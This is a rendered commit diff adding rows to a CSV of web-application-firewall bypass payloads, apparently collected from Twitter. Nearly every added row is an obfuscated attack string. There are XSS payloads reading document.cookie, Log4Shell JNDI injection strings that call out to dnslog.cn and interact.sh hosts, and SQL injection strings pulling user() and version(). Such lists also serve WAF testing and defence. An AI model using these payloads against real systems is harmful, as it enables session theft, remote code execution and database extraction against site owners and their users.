

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

Commit message:
update payloads

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -354 +354,21 @@ https://waf-bypass.com/,"<svg onload=prompt%26%23?000000028;document.domain)>",x
 https://waf-bypass.com/,../et*/pas**d,lfi
+https://waf-bypass.com/,<a href=ja%26Tab%3bvasc%26Tab%3bript:prompt`1`>pwn</a>,xss
+https://waf-bypass.com/,<details+/'on+/ontoggle=1^confirm(document.domain)+open//,xss
+https://waf-bypass.com/,<sVg/onfake=""x=y""oNload=;1^(co\u006efirm)``^1//,xss
+https://waf-bypass.com/,<img src=1 href=1 onerror=""javascript:alert('HEJAP ZAIRY AL-SHARIF')""></img>,xss
+https://waf-bypass.com/,""><sc<>ript><onxXxxXXxXXXxx=()%20autofoco%20onmouseover=alert(""HEJAP ZAIRY AL-SHARIF"")></scr<>ipt> ,xss
+https://waf-bypass.com/,t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:},rce
+https://waf-bypass.com/,<!--><svg+onload=%27top[%2fal%2f%2esource%2b%2fert%2f%2esource](document.cookie)%27>,xss
+https://waf-bypass.com/,""><svg%20onload=alert%26%230000000040""mysanismine"")>,xss
+https://waf-bypass.com/,%00""><img src=x onerror=alert`1`//,xss
+https://waf-bypass.com/,<iframe+/ON+onload=%20alert(/str0d/)>,xss
+https://waf-bypass.com/,""<a href=""""/*"""">*/)});
+https://waf-bypass.com/,function+__MobileAppList(){alert(1)}//>"",xss
+https://waf-bypass.com/,""${j${k8s:k5:-ND}${sd:k5:-${123%25ff:-${123%25ff:-${upper:ı}:}}}ldap://xxx.dnslog.cn}
+https://waf-bypass.com/,${jndi${123%25ff:-}:ldap://xxx.dnslog.cn}"",rce
+https://waf-bypass.com/,<h1/%6f%6e/oNclicK=alert``>XSS,xss
+https://waf-bypass.com/,<svg/%6f%6e/oNloaD=alert``>,xss
+https://waf-bypass.com/,${jndi${nagli:-:}ldap:${::-/}/${hostName}.anything.interact.sh/a}},rce
+https://waf-bypass.com/,%27/**/%256fR/**/50%2521%253D22%253B%2523,sqli
+https://waf-bypass.com/,0%20/*!union*/%20/*!select*/%201,2,3,4,user(),6,7,version(),9,10,11,sqli
+https://waf-bypass.com/,<svg onpointerenter=jQuery.globalEval(""al""+""ert(documen""+""t.cooki""+""e)"");>,xss
```
Also changed, not shown: 31 added rows elsewhere in this file.
